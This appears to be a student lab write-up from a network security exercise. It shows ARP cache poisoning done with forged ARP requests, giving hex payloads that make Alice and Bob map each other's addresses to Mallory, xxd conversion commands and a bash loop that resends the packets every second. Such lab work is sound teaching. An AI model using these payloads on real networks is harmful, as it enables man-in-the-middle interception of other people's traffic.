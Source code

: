 
## Bonus Task: Using ARP Requests

### **Crafting Bonus Payloads**
Instead of ARP replies, I used ARP **requests**.

**Alice's Bonus Payload (`alice_bonus.hex`):**
Sent as an ARP request, pretending **Mallory** is **Bob**:
```
00 01 08 00 06 04 00 01
02 42 0a 0a 28 04 0a 0a 28 03
00 00 00 00 00 00 0a 0a 28 02
```

**Bob's Bonus Payload (`bob_bonus.hex`):**
Sent as an ARP request, pretending **Mallory** is **Alice**:
```
00 01 08 00 06 04 00 01
02 42 0a 0a 28 04 0a 0a 28 02
00 00 00 00 00 00 0a 0a 28 03
```


**Why Target MAC Address is Zeros in ARP Requests**

When crafting the ARP requests, I set the **target MAC address** to zeros (00:00:00:00:00:00). Here’s why:

ARP requests are meant to discover the MAC address for a given IP address.
Since I don’t know the target MAC address initially, setting it to zeros is the correct behavior.
Protocol Compliance:
According to the **ARP protocol**, requests must:
Include the **sender's MAC and IP addresses**.
Include the target's IP address but leave the target's MAC address as zeros.

#### **Converting Payloads to Binary**
```bash
xxd -r -p alice_bonus.hex alice_bonus.bin
xxd -r -p bob_bonus.hex bob_bonus.bin
```

---

### **Bonus Script**
```bash
#!/bin/bash
while true; do
    sudo raw_packet eth1 02:42:0a:0a:28:02 0x0806 alice_bonus.bin
    sudo raw_packet eth1 02:42:0a:0a:28:03 0x0806 bob_bonus.bin
    sleep 1
done
```
Make it executable:
```bash
chmod +x bonus.sh
```
